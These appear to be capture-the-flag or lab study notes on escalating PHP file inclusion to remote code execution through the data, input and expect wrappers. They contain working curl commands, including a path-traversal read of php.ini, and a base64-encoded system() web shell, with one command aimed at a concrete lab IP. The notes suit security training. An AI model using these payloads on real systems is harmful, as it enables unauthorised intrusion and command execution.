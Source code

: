 Three most common php wrappers for RCE:
- data
- input
- expect

## Data

**Checking PHP configurations
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
- Try different version numbers besides 7.4
- Nginx: /etc/php/X.Y/fpm/php.ini
- Since allow_url_include is enabled, we can use the Data wrapper!

** Remote Code Execution

Since allow_url_include is enabled, we can proceed with our data wrapper attack.
```
echo '<?php system($_GET["cmd"]); ?>' | base64
```
- After base64, then URL encode it
- Use ?cmd= to use commands
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

## Input
- Vulnerable parameter must accept POST requests for this attack to work
- Also, allow_url_include must be enabled

```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
- Add webshell as POST data

## Expect
```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
- Check if expect wrapper is enabled
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```


```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://94.237.61.242:31754/index.php?language=php://input&cmd=cat%20%2F37809e2f8952f06139011994726d9ef1%2Etxt"
```
